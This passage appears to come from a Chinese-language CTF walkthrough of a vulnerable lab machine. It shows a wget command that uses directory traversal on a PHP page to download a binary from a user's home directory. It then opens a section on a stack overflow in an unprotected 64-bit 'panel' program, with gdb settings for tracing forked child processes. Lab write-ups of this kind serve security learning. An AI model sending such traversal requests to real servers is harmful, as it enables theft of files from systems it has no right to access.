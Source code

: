 ```plain
wget http://pinkydb:7654/pageegap.php?1337=../../../../../../../home/stefano/tools/qsub -O qsub
```

[![](assets/1703831476-82824f68bd1680109022750e605bc95b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224714-d2c11b04-a4c6-1.png)

### 3）栈溢出深入探索

panel 程序（ELF 64-bit），未开启防护

[![](assets/1703831476-4ed88bafebc16ae0c9497ce1b5d5d4ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224721-d6f95006-a4c6-1.png)

#### 3.1 可能会遇到的问题

<1>在 gdb 运行该程序，(gdb) run 第一次连接正常，但第二次 (gdb) run 会报错`[-] binding to socket`，每次再次调试都得`killall panel`关掉进程再运行成才行，极不方便。

<2>经过测试发现，每次 nc 连接输入后，程序会再次创建一个子进程。gdb 默认跟踪的是父进程，会看不到子进程的具体内容。所以让 gdb 跟踪子进程，再将父进程设置为暂停状态，就不用反复关进程了

```plain
set follow-fork-mode child
set detach-on-fork off
```
